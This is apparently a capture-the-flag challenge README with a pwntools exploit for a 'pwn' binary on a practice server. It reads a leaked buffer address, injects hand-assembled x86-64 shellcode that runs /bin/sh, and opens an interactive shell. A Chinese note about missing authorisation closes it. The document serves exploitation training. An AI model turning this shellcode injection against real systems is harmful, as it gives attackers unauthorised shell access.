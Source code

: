 #### Goals
 * Try to find the flag

#### Server Address
 * nc pwn.sniperoj.com 20006
 
#### Solution
```python
#!/usr/bin/env python

from pwn import *

context(os='linux', arch='amd64', log_level='debug')

if len(sys.argv) == 3:
    host = sys.argv[1]
    port = int(sys.argv[2])
    Io = remote(host, port)
else:
    Io = process("./pwn")

# read buffer addr
Io.readline()
addr_data = Io.readline()
addr = int(addr_data.split("[")[1].split("]")[0][2:], 16)
Io.readline()

# machine code
xor_esi_esi = "\x31\xf6"
mul_esi = "\xf7\xe6"
mov_rdi_bin_sh_addr = "\x48\xbf" + p64(addr)
mov_al_59 = "\xb0\x3b"
syscall = "\x0f\x05"
jmp_short_8 = "\xeb\x08"

# build payload
bin_sh = "/bin/sh\x00"
shellcode_addr = p64(addr + len(bin_sh))
payload = bin_sh + xor_esi_esi + mul_esi + mov_rdi_bin_sh_addr + jmp_short_8 + shellcode_addr + mov_al_59 + syscall

print "[+] Payload Length : [%d]" % (len(payload))

# send payload
Io.send(payload)

# get shell
Io.interactive()
```

#### Writeups
 * TODO

## 版权

该题目复现环境尚未取得主办方及出题人相关授权，如果侵权，请联系本人删除（wangyihanger@gmail.com）
